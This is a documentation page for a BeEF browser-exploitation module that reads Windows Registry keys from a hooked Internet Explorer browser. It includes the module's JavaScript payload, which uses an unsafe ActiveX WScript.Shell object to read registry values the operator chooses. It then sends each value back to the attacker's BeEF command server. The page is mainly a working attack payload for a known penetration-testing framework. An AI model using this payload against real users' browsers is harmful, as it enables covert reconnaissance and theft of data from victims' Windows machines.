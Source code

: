 ## Summary

* **Objective**: get registry keys of a Windows system
* **Authors**: bcoles
* **Browsers**: IE

* [Code](https://github.com/beefproject/beef/tree/master/modules/host/get_registry_keys)

## Internal Working

Retrieves the values of Windows Registry keys using an (unsafe) ActiveX control. 

Internet Explorer does NOT allow scripting of unsafe ActiveX controls in the Internet zone by default.

Each registry key must be placed on a new line.

uses the Wscript.Shell object to do so

```js
var wsh = new ActiveXObject("WScript.Shell");
if (!wsh) throw("failed to create registry object");
else {
        for (var i=0; i<key_paths.length; i++) {
                var key_path = key_paths[i];
                if (!key_path) continue;
                try {
                        var key_value = wsh.RegRead(key_path);
                        result = key_path+": "+key_value;
                } catch (e) {
                        result = key_path+": failed to retrieve key value";
                }
                beef.net.send('<%= @command_url %>', <%= @command_id %>, 'key_values='+result);
        }
}
```


## Feedback
